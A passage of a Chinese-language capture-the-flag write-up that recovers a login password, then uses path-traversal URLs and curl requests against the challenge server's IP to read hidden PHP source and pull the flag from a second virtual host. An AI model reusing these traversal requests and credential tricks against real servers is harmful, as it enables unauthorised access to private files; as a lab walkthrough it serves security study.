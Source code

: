 ```
                print 'No!'+i 

```

跑出完整的出密码

```
Dracula / ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz 

```

登陆之后又一个比较明显的文件遍历,可以看到网站还有一个隐藏的目录。

```
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../var/www/html/__WebSiteFuckingPrivateContentNotForPublic666 

```

访问里面的页面可以得到源码

root@kali:~# curl http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666/LOGIN_HEAD

```
<?php
    if(@$_SESSION['user']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
            $_SESSION=$_POST;
            header("location: ".$LINK);die();
        }else{
            $Error=1;
        }
    }
?> 

```

但是Flag并不在里面，而是是藏在另外一个web服务之中。在这个目录下可以看到。

```
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../../../home/devilish.local/__WebSiteFuckingPrivateContentNotForPublic666%2b666 

```

这个server中的INDEX文件输出了Flag

```
root@kali:~# curl "http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666%2b666/INDEX" -H "Host: devilish.local"
<br/>
        This is the private Portal of us<br/><br/>
        If you are accessing this page this means you are one of the very few exclusive members who are allowed to come in here!<br/> 

<br/>
<?php echo($logged?"Here's your secret ".$flag."<br/><br/>":"Login to access the secret<br/><br/>")?>

<span class="styleX">s</span> 

```
